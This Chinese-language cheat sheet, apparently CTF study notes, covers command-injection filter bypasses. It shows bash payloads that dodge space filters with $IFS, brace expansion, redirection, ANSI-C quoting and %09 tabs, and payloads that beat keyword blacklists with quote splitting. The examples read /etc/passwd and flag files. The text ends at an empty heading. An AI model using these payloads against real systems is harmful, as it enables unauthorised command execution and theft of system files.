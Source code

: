 - `$IFS`、`${IFS}`、`$IFS$9`

环境变量IFS（**I**nternal **F**ield **S**eparator，内部字段分隔符），默认情况下由`空格`、`制表符`和`换行符`组成，可通过`set`命令查看。

`${IFS}`使用`{}`可以避免出现变量名与其他字符连用的情况。`$9`是当前命令的第9个参数，通常为空。习惯上，使用`$IFS$9`可避免避免变量名连用，也不出现花括号。


```bash
cat$IFS/etc/passwd
cat${IFS}flag
cat$IFS$9flag
```

- [大括号扩展](https://wangdoc.com/bash/expansion#%E5%A4%A7%E6%8B%AC%E5%8F%B7%E6%89%A9%E5%B1%95)`{...}`

```bash
{cat,/etc/passwd}
```

- 重定向运算符

```bash
# 输入重定向
cat</etc/passwd

# 读写
cat<>/etc/passwd
```

- `$'string'`特殊类型的单引号（ANSI-C Quoting）

`$''`属于[特殊的单引号](https://www.gnu.org/software/bash/manual/bash.html#ANSI_002dC-Quoting)，支持转义字符。

```bash
# 十六进制
X=$'cat\x20/etc/passwd';$X

# 换行符
x=$'cat\n/etc/passwd';$x
x=$'cat\t/etc/passwd';$x
```

- 使用制表符

```bash
;ls%09-al%09/home
```

- 变量截取
  
### 绕过黑名单

- 单引号

```bash
w'h'o'am'i
wh''oami
```

- 双引号
